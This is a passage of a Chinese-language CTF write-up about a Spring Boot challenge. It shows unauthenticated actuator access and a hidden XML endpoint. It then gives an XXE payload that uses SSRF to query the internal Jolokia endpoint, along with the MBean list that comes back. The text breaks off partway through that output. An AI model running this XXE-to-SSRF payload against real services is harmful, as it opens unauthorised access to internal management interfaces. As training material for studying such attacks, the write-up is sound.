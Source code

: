 存在 springboot actuator 和 jolokia 两个额外的依赖

相关文章

[https://xz.aliyun.com/t/9763](https://xz.aliyun.com/t/9763)

[https://www.freebuf.com/news/193509.html](https://www.freebuf.com/news/193509.html)

访问 /actuator 发现存在未授权

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202211181436285.png)

APIKit

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202211181436174.png)

注意 /user/list 和 /actuator/jolokia, 前者在访问页面的时候没遇到过, 应该是隐藏接口, 后者就是 jolokia 的接口

访问 /user/list 提示 405, 改成 post 返回 `<id></id><username></username>` ,猜测有 xxe

测试发现不能读文件, 也不能用 `ENTIY %` 这种形式的 payload, 但题目出网 (之后看 wp 发现是配置错误, 应该是不出网的)

访问 /actuator/jolokia 提示 403

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202211181440517.png)

用 xxe + ssrf 打一下, 注意是 docker 环境, 内部端口要从 /actuator/env 获取

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202211181445598.png)

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202211181441431.png)

之后就是寻找 jolokia 的利用方式, 网上的 rce 在这里不适用 (预期环境不出网)

翻了翻官方文档, 发现可以列举和查找 mbean

[http://huazx.github.io/Jolokia/reference/protocol.html](http://huazx.github.io/Jolokia/reference/protocol.html)

用 list 报错 (存在 `<>` 字符, xml 解析错误), 换成 search

```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE id [
<!ENTITY file SYSTEM "http://127.0.0.1:8080/actuator/jolokia/search/*:*">]>
<id>&file;
</id>
```

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202211181446717.png)

```json
["jolokia:type=Config",
 "org.springframework.boot:name=Configprops,
type=Endpoint",
 "org.springframework.boot:name=Conditions,
type=Endpoint",
 "JMImplementation:type=MBeanServerDelegate",
 "java.lang:type=Runtime",
 "java.lang:type=Threading",
 "java.lang:type=OperatingSystem",
 "java.nio:name=direct,
type=BufferPool",
 "org.springframework.boot:name=Scheduledtasks,
type=Endpoint",
 "java.lang:type=Compilation",
 "org.springframework.boot:name=Mappings,
type=Endpoint",
 "org.springframework.boot:name=Threaddump,
type=Endpoint",
```